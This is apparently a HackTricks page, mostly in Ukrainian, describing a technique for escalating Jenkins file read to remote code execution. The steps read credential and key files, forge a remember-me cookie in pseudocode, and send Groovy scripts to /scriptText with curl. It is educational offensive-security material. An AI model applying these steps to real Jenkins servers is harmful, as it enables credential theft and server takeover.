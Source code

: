 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

У цьому блозі можна знайти чудовий спосіб перетворити вразливість Local File Inclusion в Jenkins на RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Це підсумок, створений штучним інтелектом, частини посту, де зловживання створенням довільного cookie використовується для отримання RCE, зловживаючи читанням локальних файлів, поки я не матиму часу створити підсумок самостійно:

### Attack Prerequisites

* **Feature Requirement:** "Remember me" має бути увімкнено (налаштування за замовчуванням).
* **Access Levels:** Зловмисник потребує загальних/читальних дозволів.
* **Secret Access:** Можливість читати як бінарний, так і текстовий вміст з ключових файлів.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* Отримати конфігурацію користувача та секрети з `$JENKINS_HOME/users/*.xml` для кожного користувача, щоб зібрати:
* **Username**
* **User seed**
* **Timestamp**
* **Password hash**

**Secret Key Extraction**

* Витягти криптографічні ключі, що використовуються для підписування cookie:
* **Secret Key:** `$JENKINS_HOME/secret.key`
* **Master Key:** `$JENKINS_HOME/secrets/master.key`
* **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **Calculate Token Expiry Time:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Додає одну годину до поточного часу
```
{% endcode %}
*   **Concatenate Data for Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Key Decryption**

*   **Decrypt MAC Key File:**

```javascript
key = toAes128Key(masterKey)  // Перетворити головний ключ у формат ключа AES128
decrypted = AES.decrypt(macFile, key)  // Розшифрувати .mac файл
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

*   **Compute HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Обчислити HMAC, використовуючи токен і MAC ключ
tokenSignature = bytesToHexString(mac)  // Перетворити MAC у шістнадцятковий рядок
```

**Cookie Encoding**

*   **Generate Final Cookie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 кодувати дані cookie
```
{% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **Fetch CSRF and Session Tokens:**
* Зробити запит до `/crumbIssuer/api/json`, щоб отримати `Jenkins-Crumb`.
* Захопити `JSESSIONID` з відповіді, який буде використовуватися разом з cookie "remember-me".

**Command Execution Request**

*   **Send a POST Request with Groovy Script:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy скрипт може бути використаний для виконання команд на рівні системи або інших операцій у середовищі Jenkins.

Приклад команди curl демонструє, як зробити запит до Jenkins з необхідними заголовками та cookie для безпечного виконання довільного коду.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
